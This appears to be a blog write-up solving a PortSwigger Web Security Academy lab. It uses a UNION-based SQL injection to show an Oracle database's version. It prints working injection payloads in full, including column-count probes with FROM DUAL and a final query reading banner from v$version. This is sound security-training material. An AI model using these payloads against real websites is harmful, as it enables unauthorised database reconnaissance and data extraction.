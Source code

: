 ```yaml
---
title: PortSwigger - SQLi 7 - UNION attack, querying the database type and version on Oracle
date: 2023-03-15
categories: [PortSwigger, SQLi]
tags: [portswigger, web, sqli]
---
```


Difficulty : `Practitioner`

## 🎯 Goal

To solve the lab, display the Oracle database version string.

## ✅ Solution

> On Oracle, every SELECT query must use the FROM keyword and specify a valid table. There is a built-in table on Oracle called `dual` which can be used for this purpose. So the injected queries on Oracle would need to look like: `' UNION SELECT NULL FROM DUAL--`

Number of columns:

````text
<website>/filter?category=Pets' UNION SELECT NULL FROM DUAL--    # error!
<website>/filter?category=Pets' UNION SELECT NULL,NULL FROM DUAL--    # works
<website>/filter?category=Pets' UNION SELECT NULL,NULL,NULL FROM DUAL--    # error!
````

Is one column containing string?

````text
<website>/filter?category=Pets' UNION SELECT 'abc',NULL FROM DUAL--    # works
````

Full payload:

````text
<website>/filter?category=Pets' UNION SELECT banner,NULL FROM v$version--
````

The database type and version are displayed.
